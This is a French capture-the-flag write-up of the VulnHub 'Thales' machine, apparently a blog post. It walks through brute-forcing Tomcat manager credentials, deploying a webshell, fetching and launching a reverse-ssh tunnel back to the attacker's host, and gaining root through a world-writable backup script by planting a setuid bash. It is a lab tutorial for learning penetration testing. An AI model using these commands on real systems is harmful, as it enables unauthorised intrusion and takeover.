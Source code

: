 # Solution du CTF Thales de VulnHub

[Ce CTF](https://www.vulnhub.com/entry/thales-1,749/) proposé sur VulnHub a été créé par [machineboy414](https://twitter.com/machineboy141) qui est déjà l'auteur de la série de CTFs KB-VULN pour lesquels j'ai déjà écrit quelques writeups.

On lance notre scanner de ports favoris et... oh ! un Tomcat !

```
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 192.168.56.39
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8c19ab9172a571d86d751d8f65dfe132 (RSA)
|   256 906ea0eed5296cb97b05dbc6825c19bf (ECDSA)
|_  256 544d7be8f97f21343eed0fd9fe93bf00 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.52
|_http-title: Apache Tomcat/9.0.52
|_http-favicon: Apache Tomcat
MAC Address: 08:00:27:72:5B:09 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

J'ai beau avoir croisé quelques Tomcat dans les CTFs il fallait que je retrouve la liste d'identifiants habituels pour cette application.

Les différents liens sur le site mènent en effet presque tous à une demande d'authentification. Notemment si on tente d'accèder à `/manager`.

J'ai recherché un outil de brute force pour Tomcat mais j'aurais très bien avoir recours sau classique Hydra. J'ai finalement jeté mon dévolu sur [ce petit script Python](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) qui n'a besoin que de deux dépendances (`requests` et `termcolor`).

Je lui ait fournit en entrée deux wordlists provenant de fuzzdb, l'une pour les noms d'utilisateurs et l'autre pour les mots de passe.

```bash
$ python mgr_brute.py -U http://192.168.56.39:8080/ -u tomcat_mgr_default_users.txt -p tomcat_mgr_default_pass.txt -P /manager

[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'role1'
```

Une fois connecté je remarque qu'il y a une entrée */shell/* dans les applis déployées. La page n'affichant que du vide j'ai tenté de débusquer un éventuel paramètre valide pour le script:

```bash
$ ffuf -u "http://192.168.56.39:8080/shell/?FUZZ=id" -w common_query_parameter_names.txt -fs 6
```

Cela n'a malheureusement mené nul part. J'aurais aimé pouvoir télécharger le fichier war correspondant au déploiement depuis le Tomcat mais c'est visiblement impossible.

J'ai donc du employer la classique technique de déploiement d'une archive war que j'ai trouvé pour l'occasion [sur ce projet github](https://github.com/p0dalirius/Tomcat-webshell-application).

Une fois déployé on utilise la commande fournie en exemple:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

Je rappatrie ensuite un reverse-ssh sur la machine:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=wget -O /opt/tomcat/reverse-ssh http://192.168.56.1:8000/reverse-sshx64"
```

Je lance d'abord reverse-ssh en écoute sur ma machine:

```bash
./reverse-sshx64 -l -p 9999 -v
```

puis je lance le tunnel depuis la VM:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=/opt/tomcat/reverse-ssh -p 9999 192.168.56.1"
```

Le tunnel est bien établi :

```
2022/11/03 17:04:47 Starting ssh server on :9999
2022/11/03 17:04:47 Success: listening on [::]:9999
2022/11/03 17:05:05 Successful authentication with password from reverse@192.168.56.39:54578
2022/11/03 17:05:05 Attempt to bind at 127.0.0.1:8888 granted
2022/11/03 17:05:05 New connection from 192.168.56.39:54578: tomcat on miletus reachable via 127.0.0.1:8888
```

Je n'ai plus qu'à me connecter au port forwardé localement:

```bash
$ ssh -p 8888 127.0.0.1
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
RSA key fingerprint is SHA256:ouF/tUjdBRFlHLkk1CgdY/xcer/6epVHyR9k0gDiNeI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (RSA) to the list of known hosts.
sirius@127.0.0.1's password: 
tomcat@miletus:/$ id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
```

Je fouille direct dans le dossier `/home` et je vois des éléments intéressants:

```bash
tomcat@miletus:/$ ls /home/thales/ -al
total 52
drwxr-xr-x 6 thales thales 4096 Oct 14  2021 .
drwxr-xr-x 3 root   root   4096 Aug 15  2021 ..
-rw------- 1 thales thales  457 Oct 14  2021 .bash_history
-rw-r--r-- 1 thales thales  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 thales thales 3771 Apr  4  2018 .bashrc
drwx------ 2 thales thales 4096 Aug 15  2021 .cache
drwx------ 3 thales thales 4096 Aug 15  2021 .gnupg
drwxrwxr-x 3 thales thales 4096 Aug 15  2021 .local
-rw-r--r-- 1 thales thales  807 Apr  4  2018 .profile
-rw-r--r-- 1 root   root     66 Aug 15  2021 .selected_editor
drwxrwxrwx 2 thales thales 4096 Aug 16  2021 .ssh
-rw-r--r-- 1 thales thales    0 Oct 14  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    107 Oct 14  2021 notes.txt
-rw------- 1 thales thales   33 Aug 15  2021 user.txt
```

Le fichier *notes.txt* contient le message suivant :

> I prepared a backup script for you.
> The script is in this directory "/usr/local/bin/backup.sh".
> Good Luck.

On peut lire la clé privée SSH de l'utilisateur mais pas écrire à l'intérieur (SSH aurait sans doute gueulé sinon).

Cette clé privée est toutefois protégée par une passphrase donc laissons la de côté.

On voit que le script cité appartient à root mais est world-writable :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /usr/local/bin/backup.sh
-rwxrwxrwx 1 root root 612 Oct 14  2021 /usr/local/bin/backup.sh
```

Il créé des archives compressées du dossier /opt/tomcat :

```bash
#!/bin/bash
####################################
#
# Backup to NFS mount script.
#
####################################

# What to backup. 
backup_files="/opt/tomcat/"

# Where to backup to.
dest="/var/backups"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

Et visiblement le script est exécuté par root :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /var/backups
total 36508
drwxr-xr-x  2 root root     4096 Nov  3 14:56 .
drwxr-xr-x 13 root root     4096 Aug  6  2020 ..
-rw-r--r--  1 root root    33750 Oct 14  2021 apt.extended_states.0
-rw-r--r--  1 root root     3614 Aug 15  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root 11573824 Aug 16  2021 miletus-Monday.tgz
-rw-r--r--  1 root root 11572776 Aug 15  2021 miletus-Sunday.tgz
-rw-r--r--  1 root root 14182418 Nov  3 18:10 miletus-Thursday.tgz
```

La date du dernier fichier semble changer toutes les 5 minutes.

Je rajoute deux petites commandes en fin de script :

```bash
echo "cp /bin/bash /tmp/; chmod 4755 /tmp/bash" >> /usr/local/bin/backup.sh
```

On obtient notre shell attendu rapidement :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /tmp/bash
-rwsr-xr-x 1 root root 1113504 Nov  3 18:20 /tmp/bash
tomcat@miletus:/home/thales/.ssh$ /tmp/bash -p
bash-4.4# id
uid=999(tomcat) gid=999(tomcat) euid=0(root) groups=999(tomcat)
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
3a1c85bebf8833b0ecae900fb8598b17
bash-4.4# cat /home/thales/user.txt
a837c0b5d2a8a07225fd9905f5a0e9c4
```

## Alternative happy end

On peut finalement casser la passphrase de la clé SSH :

```
./john --wordlist=rockyou.txt  ssh_key.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (/tmp/thales.key)     
1g 0:00:00:00 DONE (2022-11-03 18:24) 1.020g/s 2918Kp/s 2918Kc/s 2918KC/s vodka121..vodka&l
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La connexion avec la clé échoue (sans doute à cause des mauvaises permissions) mais depuis le compte *tomcat* on peut *su* vers *thales* avec le mot de passe.

On ne peut pas utiliser sudo depuis cet utilisateur. La ligne qui nous aurait aidé a été commentée :

```
# Allow members of group sudo to execute any command
#sudo   ALL=(ALL:ALL) ALL
```

L'utilisateur fait toutefois partie du groupe lxd donc il doit être possible de faire une escalade de privlège par là.

En conclusion un CTF simple mais plutôt réaliste.

*Publié le 3 novembre 2022*
